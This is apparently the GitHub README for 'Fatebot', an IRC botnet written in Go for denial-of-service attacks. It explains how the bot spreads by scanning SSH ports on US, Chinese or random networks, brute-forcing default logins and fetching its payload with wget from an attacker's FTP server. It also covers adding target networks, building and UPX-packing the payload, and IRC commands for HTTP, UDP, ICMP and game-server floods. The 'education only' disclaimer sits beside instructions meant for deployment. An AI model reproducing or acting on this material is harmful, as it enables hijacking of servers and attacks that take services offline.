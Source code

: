 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Develop by Bozer\Bulldozer (old name is R4bin) feel free to do anything with it, read more in License.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with legal.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will Brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Go to "scan.go" file in pkg folder. Add your new network in to the group of varible.

		var_name = "123." // 123.0.0.0/8
		or
		var_name = "123.12" // 123.12.0.0/16
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function, add the case for your network IP and then return a range of your network IP.

		case var_name:
				return bot.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of the IP that you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "123.12"
		var_name = "123.20"
		
	#The IP that look like this it will return range of the id since 0 - 255 by default.
	#That's mean you don't need to add a case in "nextIP" function for your IP.
	

(4) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			bot.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<li>IRC server</li>
<li>Backup IRC server <strong>(Optional)</strong></li>
<li>FTP server <strong>(Optional)</strong></li>
<li>Go compiler</li>
<li>UPX packer <strong>(Optional)</strong></li>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target. Shouldn't have "/" end of The url!!!
	?post 	<url>			Flood HTTP post request to target. Shouldn't have "/" end of The url!!!
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of buffer is 100 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request on valve source engine dst port, By random src port to the target server that used to host online games.
	?scan 	<modes> <ftp>		Scan SSH port on the network, Brute-Force attack to the target and load the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united state of america network. 
		-r		Scan with random ip. 	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
